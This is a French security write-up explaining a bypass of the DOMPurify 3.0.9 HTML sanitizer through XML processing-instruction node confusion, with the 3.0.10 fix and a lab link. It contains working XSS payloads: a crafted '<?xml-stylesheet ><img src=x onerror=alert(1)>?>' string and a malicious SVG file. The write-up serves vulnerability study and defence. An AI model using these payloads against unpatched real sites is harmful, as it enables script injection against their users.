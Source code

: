```yaml
---
description: 03 mai 2024
---
```


# Dompurify 3.0.9 bypass - Node type confusion

> Cet article se base sur les recherches de [slonser\_](https://twitter.com/slonser\_) ([https://blog.slonser.info/posts/dompurify-node-type-confusion/](https://blog.slonser.info/posts/dompurify-node-type-confusion/)).

## Confusion HTML et XML

Au sein d'un document HTML, rien n'empêche un noeud XML d'avoir un noeud HTML en tant que parent. C'est par exemple le cas d'un SVG intégré au sein d'une page HTML :

```html
<div id="userContent">
  <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
    <rect width="50" height="50" fill="green" />
  </svg>
</div>
```

L'image vectorielle s'affichant sans erreur au sein de la page.

### L'interface ProcessingInstruction

L'interface `ProcessingInstruction` représente un noeud qui intègre une instruction de traitement spécifique à une application XML. Elle possède le format suivant :&#x20;

```xml
<?target data?>
```

Par exemple :&#x20;

```xml
<?xml-stylesheet href="style.css"?>
```

Lorsque Dompurify assainit une chaîne de caractères de type XML, et que l'option adéquate est :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet <img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

Les instructions de traitement (processing instructions) ne semblent pas être assainies par la bibliothèque. L'évenement `onerror` ainsi que l'appel à la méthode `alert()` ne sont pas supprimés : &#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet <img src=x onerror=alert(1)-->
  "?>"
</div>
```

Malheureusement, le code est commenté par le navigateur, empêchant ainsi son exécution : &#x20;

<figure><img src="../../../.gitbook/assets/image (334).png" alt=""><figcaption><p><a href="https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction">https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction</a></p></figcaption></figure>

Toutefois, le navigateur commente le code jusqu'à rencontrer le prochain caractère `>`, il est donc possible d'exploiter ce comportemement de la façon suivante :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?xml-stylesheet ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'}); 
```

L'affichage de la page HTML provoque dorénavant l'exécution de la méthode `alert()` :&#x20;

```html
<div id="userContent">
  <!--?xml-stylesheet -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Par défaut, Dompurify traite la chaîne de caractères comme du HTML, et non du XML, excepté si l'option `{PARSER_MEDIA_TYPE: 'application/xhtml+xml'}` est spécifée. De plus, il est assez rare d'identifier une cible imposant ce type de média et intégrant ensuite la donnée assainie au sein d'un document HTML.

### Assainissement d'un noeud

La manière la plus fréquente d'utiliser la méthode `sanitize()` de Dompurify est de lui passer une chaîne de caractères en tant que paramètre :&#x20;

{% code fullWidth="false" %}
```javascript
DOMPurify.sanitize("<img src='https://example.com/image.png'>")
```
{% endcode %}

Mais bien que moins utilisé, il est également possible de lui passer directement un noeud :&#x20;

```javascript
let img = document.createElement('img');
img.src = "https://example.com/image.png";

let userContent= document.getElementById('userContent');            
userContent.innerHTML = DOMPurify.sanitize(img);
```

Toutefois, lorsque le noeud est un noeud XML, le même comportement que précédent est possible lors de l'utilisation des instructions de traitement.

L'exemple suivant illustre une fonctionnalité permettant à l'utilisateur de fournir une URL afin de charger un fichier SVG, qui sera assaini par Dompurify avant d'être intégré au document HTML :

```javascript
let xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
  if (xhr.readyState === 4 && xhr.status === 200) {
    let content = xhr.responseText;
    let extension = xhr.responseURL.split('.').pop().toLowerCase();

    if (extension === "svg") {
      let svg = new DOMParser().parseFromString(content, "image/svg+xml").documentElement;
      let userContent= document.getElementById('userContent');
      userContent.innerHTML = DOMPurify.sanitize(svg);
    }
  }
}

xhr.open("GET", url, true);
xhr.send();
```

Lorsque l'utilisateur renseigne une URL vers un fichier SVG, tel que :&#x20;

```xml
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)">?>
</svg>
```

Dompurify échoue à assainir le noeud et permet l'exécution du code Javascript :&#x20;

```html
<div id="userContent"><svg viewBox="0 0 100 100" height="100" width="100" xmlns="http://www.w3.org/2000/svg">
  <rect fill="green" height="50" width="50"></rect>
  <!--?xml-stylesheet --> </svg><img src="x" onerror="alert(1)"> 
  "?>"
</div>
```

## Correction

Le correctif, apporté par la version 3.0.10 de Dompurify, consiste à l'ajout du masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des noeuds XML. Cela permet de traiter les noeuds de type `ProcessingInstruction` :&#x20;

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION, null);
};
```

Cette constante est définit par l'API DOM et utilisée par la méthode `createNodeIterator()`  ([https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator](https://developer.mozilla.org/en-US/docs/Web/API/Document/createNodeIterator)).

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurify-3.0.9-bypass-node-type-confusion).

